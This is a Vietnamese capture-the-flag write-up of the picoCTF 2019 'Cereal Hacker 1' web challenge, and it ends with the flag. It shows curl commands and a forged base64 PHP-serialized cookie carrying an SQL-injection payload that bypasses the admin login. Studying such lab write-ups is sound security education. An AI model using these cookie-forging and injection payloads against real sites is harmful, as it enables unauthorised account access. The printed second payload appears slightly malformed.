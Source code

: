 # CEREAL-HACKER-1
### Thể loại: Web Exploitation.
### Thử thách: 
Đăng nhập vào tài khoản admin của trang web sau: https://2019shell1.picoctf.com/problem/32256/
### Gợi ý: không có
### Kiến thức nền:
 - Local file inclusion.
 - SQL injection.
 - HTTP cookie.
 - PHP Object injection.
### Giải quyết vấn đề:
Okay, trước tiên chúng ta hãy test thử trang login này nào.
![enter image description here](https://res.cloudinary.com/practicaldev/image/fetch/s--ge4uP4DX--/c_limit,f_auto,fl_progressive,q_auto,w_880/https://thepracticaldev.s3.amazonaws.com/i/q1glk24z4czgq8pl6nqr.png)

1/ Kiểm tra lỗ hổng SQL Injection: 
 - Tại mục username, thử nhập "admin" rồi nhập `'OR 1=1 --` tại mục password để test thử -> Invalid Login. 
 - Có khả năng Password đã được filter. Thử nhập ngay tại username là `admin--` rồi nhập random tại password-> Invalid Login.

2/ Kiểm tra lỗ hổng Local File Inclusion:
URL của trang login này là: https://2019shell1.picoctf.com/problem/32256/index.php?file=login. Hmm, đoạn `index.php?file=login` khiến mình khá là trigger:v Thay "login" bằng "admin" thử xem sao. Bật curl lên múa thôi nào các bạn:))
```html
root@antoine:~# curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>
```
URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin dẫn ta đến một local file của web server như phía dưới:
![PicoCTF 2019: Cereal Hacker 2 (500p) - DEV](https://res.cloudinary.com/practicaldev/image/fetch/s--YnxtPU-W--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/ffnkvrvpvxh0qxqrsro4.png)
F12 để check xem cookie thế nào thì cũng không thấy gì đặc biệt. Thôi thì bấm vào "Go back to login" để quay lại cái trang login ban đầu vậy:((
Trong lúc bắt đầu thấy nản vcl thì mình nảy ra ý tưởng: "Có tài khoản admin thì phải có tài khoản guest chứ nhỉ?" Nhập vào username và password đều là "guest" thử xem. Tada!
![picoCTF 2019 - cereal hacker 1](https://blog.kakaocdn.net/dn/cj4IyA/btqyYPR6PT0/ZK8nMXznDOfidw8oyK44O0/img.png) 
Khi nhập vào các mục của trang login, mình nhận thấy không có bất kì thay đổi gì đặc biệt trên thanh URL ngoài `file=regular_user` . Vậy nhiều khả năng input được truyền tới server bằng phương thức POST. Bật curl lên và xem dữ liệu HTTP POST được gửi tới server như nào thôi nào:3
Dùng lệnh: 
```console
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=login --data "user=guest&pass=guest" -v 
```
Sau một hồi căng mắt dò từng dòng một trong đống output dài vê lờ thì mình đã tìm thấy một thứ khả nghi:
```console
Set-Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D;
```
Đây chính là [HTTP Cookie](https://viblo.asia/p/ban-da-hieu-ro-ve-http-cookie-djeZ1DvGKWz) trong header mà web browser gửi lên cho server.  Cookie user_info này rất có thể được mã hóa base64. Vào 1 trang [Base64 Decoder](https://www.base64decode.org/) để decode thử, ouput là: 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Output ở phía trên trông khá giống như một [serialized](https://en.wikipedia.org/wiki/Serialization) object trong PHP, và object này thể hiện các thông tin bao gồm username và password. Cùng nhau phân tích output nào:
```
O:11:"permissions": --> object có tên là "permissions",độ dài của string "permissions" là 11 kí tự.
    2: --> số lượng thuộc tính của object "permissions", gồm username và password. 
        {
            s:8:"username"; s:5:"guest"; --> tên của thuộc tính name là một string độ dài 8, giá trị của nó là 1 string độ dài 5.
            s:8:"password"; s:5:"guest"; --> tên của thuộc tính password là một string độ dài 8, giá trị của nó là 1 string độ dài 5.  
        }
```
Object này chứa thông tin để xác thực tài khoản "guest". Vậy nếu chúng ta sửa username thành admin và sử dụng SQL injection để bypass password rồi gói payload này vào 1 [custom HTTP headers](https://www.keycdn.com/support/custom-http-headers)
rồi gửi nó ngược lại cho thằng server thì sao nhỉ? Okay, triển thôi (lưu ý phải thay đổi luôn cả độ dài của string ứng với từng mục nhập vào):

 ```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:8:"' OR 1=1";}
```
Mã hóa base64 đống payload này. Sau đó gán output sau khi encode vào cookie user_info chúng ta sẽ gửi nó tới server thông qua URL https://2019shell1.picoctf.com/problem/32256/index.php?file=admin như sau:
```console 
curl https://2019shell1.picoctf.com/problem/32256/index.php?file=admin -H "Cookie: user_info=TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6ODoiJyBPUiAxPTEiO30" && echo
```
Hic hic, server trả về đúng trang cũ (You are not admin!). Tiếp tục thử payload khác nào: 
 ```
O:11:"permissions":2:O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:28:"Antoine' or password like '%";}
```
Trong đó `or password like '%` có nghĩa là "hoặc trường password của bản ghi có value bắt đầu bằng null". Mà không có string nào là không bắt đầu bằng null cả nên nó đúng với mọi user nằm trong table (chi tiết xem tại [đây](https://www.w3schools.com/sql/sql_like.asp)). Lặp lại các bước như phía trên ta thu được:

```html
<!DOCTYPE html>
<html>
<head>
<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
<link href="style.css" rel="stylesheet">
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
</head>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

</html>

```
Hai cái payload này chỉ là một số hàng chục payload mà mình đã thử:v Vì bài viết có hạn nên chỉ xin giới thiệu từng này:))) Các bạn có thể tham khảo các câu lệnh SQL để inject vào mục tiêu thông qua các cheat sheet nha:3

Anyway, this is the endgame!!!!
